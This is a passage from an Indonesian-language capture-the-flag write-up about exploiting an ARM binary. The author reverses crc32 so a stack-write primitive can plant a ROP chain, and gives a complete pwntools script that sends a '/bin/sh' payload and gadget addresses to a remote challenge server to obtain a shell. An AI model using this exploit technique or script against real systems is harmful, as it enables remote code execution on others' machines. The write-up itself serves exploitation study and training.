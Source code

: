 Sebelum bahasan agak lebih jauh, `write_to_stack` ini sendiri ada batasannya juga, data yang ditulis di stack itu crc32 dari data yang di input. Agak sedikit tricky, untungnya ada tools dari <http://reveng.sourceforge.net> untuk reverse crc32.

ROP di arm sebenernya ga jauh beda dengan ROP di x86, intinya sama harus cari gadgets yang "_reliable_" untuk kontrol pc dan register. Baca lanjut yang lebih jelas ke <https://azeria-labs.com/> untuk ARM exploitations.

---

## Final Exploit

gadgets yang dipakai untuk final exploit ini gak langsung `pop` semua register karena untuk menghindari bad bytes saat _transmisi data?_

```py
#r = remote('127.0.0.1', 5555)
r = remote('159.65.80.92', 31337)

raw_input('[ENTER TO CONTINUE]')

def write_to_stack(pos, buf, more=True):
    r.sendlineafter('slot: ', str(pos))
    r.sendlineafter('storage: ', buf)
    print r.recvline(keepends=False)
    r.sendline('y' if more else 'n')

def reverse_crc32(x):
    buf = (((x << 24) & 0xFF000000) | ((x <<  8) & 0x00FF0000) | ((x >>  8) & 0x0000FF00) | ((x >> 24) & 0x000000FF))
    buf = hex(buf)[2:].rjust(8, '0')
    m = process(['./reveng/reveng', '-m', 'crc-32', '-v', buf])
    ret = m.recvline(keepends=False)
    m.close()
    return ret.decode('hex')

context.log_level = 'WARN'

payload = '/bin/sh\x00'
payload += p32(0x0006ef8c)
payload += p32(0x0006ef8c)
payload += p32(0x0006ef8c)

r.sendline(payload) #login
r.sendline('1') # menu store

write_to_stack(13, reverse_crc32(0x00099014)) # fp

# pop {r0, r1, r3, ip, lr}; pop {r2}; ldr r1, [r0, #4]; bx r1;
write_to_stack(14, reverse_crc32(0x0005ab18)) # pc
write_to_stack(15, reverse_crc32(0x00099020)) # r0
write_to_stack(16, '') # r1
write_to_stack(17, reverse_crc32(0x0006ef8c)) # r3
write_to_stack(18, '') # ip
write_to_stack(19, reverse_crc32(0x0001a194)) # lr
write_to_stack(20, '') # r2

# pop {r0, pc}
write_to_stack(21, reverse_crc32(0x00099014)) # r0
write_to_stack(22, reverse_crc32(0x0006e810)) # pc

# sub r1, r1, r3; bx lr;

# pop {r7, pc}
write_to_stack(23, reverse_crc32(11))
```